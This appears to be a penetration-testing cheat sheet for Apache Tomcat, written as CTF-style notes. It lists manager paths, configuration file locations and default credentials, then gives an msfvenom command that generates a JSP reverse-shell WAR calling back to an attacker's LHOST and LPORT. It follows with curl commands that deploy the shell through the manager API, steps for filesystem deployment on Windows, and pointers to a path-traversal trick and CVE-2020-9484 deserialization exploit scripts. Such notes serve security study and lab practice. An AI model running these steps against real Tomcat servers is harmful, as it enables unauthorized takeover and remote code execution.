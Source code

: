 # tomcat

## Tomcat Files

```bash
# path
/manager/
/manager/status
/host-manager/

# main config paths
/etc/tomcat{X}
/usr/share/tomcat{X}/etc/
/etc/tomcat{X}/conf/
/etc/tomcat/conf/
C:\Program Files\Apache Software Foundation\Tomcat 9.0\conf\
C:\xampp\tomcat\conf\

# files
conf\tomcat-users.xml
```

## Check for default creds using

use nikto to scan for default creds

```bash
tomcat:tomcat
tomcat:s3cret

/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt 
/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
```

## Shell

```bash
# via GUI
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war -o shell.war

```

### Deploying Using CLI (.war) - using manager

```bash
## no gui, limited perms access
roles="admin-gui,manager-script"
As we don't have `manager-gui` permission, we cant login to manager-gui

https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#limitations
https://tomcat.apache.org/tomcat-9.0-doc/host-manager-howto.html

# generate .war shell
$ curl -u USER:'PASS' http://IP:PORT/manager/text/list
$ curl -u USER:'PASS' http://IP:PORT/manager/text/deploy?path=/kashz -T shell.war
$ curl -u USER:'PASS' http://IP:PORT/manager/text/undeploy?path=/kashz
```

### Deploying without creds - using filesystem (Windows)

[Reference link](https://stackoverflow.com/questions/5109112/how-to-deploy-a-war-file-in-tomcat-7)

1. generate `shell.war`
2. copy to `%CATALINA_HOME%\webapps\shell.war`
3. run `%CATALINA_HOME%\bin\startup.bat`
4. .war is deployed.
5. invoke using `curl http://IP:PORT/shell/`

## Tomcat/9.0.31

{% embed url="https://github.com/iamkashz/ctf-scripts/blob/main/HTB/monitors-tomcat-deserialization-rce.sh" %}

```bash
# Path Traversal via reverse proxy mapping
| Tomcat will threat the sequence /..;/ as /../ and normalize the path while reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is.
https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/

# all version prior to April 2020
# CVE-2020-9484 | Deserialization of Untrusted Data RCE
| ROME method to generate .jar
    | ctf-scripts/tomcat-v9.0.31-deserialization-rce.sh (msf ripoff)
    | (msf) exploit/linux/http/apache_ofbiz_deserialiation
| CommonsCollections2 method to generate .jar
    | https://github.com/PenTestical/CVE-2020-9484 - uses 
    | manual: https://romnenko.medium.com/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4
```
